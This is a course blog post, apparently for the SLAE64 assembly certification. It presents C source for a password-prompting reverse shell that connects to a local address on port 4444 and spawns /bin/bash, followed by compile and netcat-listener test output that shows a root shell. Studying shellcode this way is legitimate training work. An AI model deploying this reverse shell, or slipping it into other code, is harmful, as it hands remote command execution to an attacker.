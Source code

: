 ```yaml
---
title: SLAE64 Assignment 2 - Password Protected Reverse Shell
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Reverse
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# C Reverse Shell 
I first created a skelton reverse shell using the C language to reverse engineer the work needed to be done for the assembly shellcode version.

## revshell.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h> /* superset of previous */
#include <stdlib.h>
int main(void)
{
	int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
	struct sockaddr_in ipSocketAddr = { 
        .sin_family = AF_INET, 
        .sin_port = htons(4444), 
        .sin_addr.s_addr = inet_addr("127.1.1.1") 
    };
	connect(ipv4Socket, (struct sockaddr*)&ipSocketAddr, sizeof(ipSocketAddr)); 
	dup2(ipv4Socket, 0); // Standard Input
	dup2(ipv4Socket, 1); // Standard Output
	dup2(ipv4Socket, 2); // Standard Error
    write(ipv4Socket, "Mothers Maiden Name?", 20); 
    char buff[4];
    read(ipv4Socket, buff, 4);
	execve("/bin/bash", NULL, NULL);
}	
```
+ Password checking will be done in assembly and is not included in the C skeleton program.

## Compiling & Testing
```bash
root# gcc revshell.c -o revshell
root# ./revshell 
────────────────────────────────────────────────────────────
root# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 44006
Mothers Maiden Name?1337
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
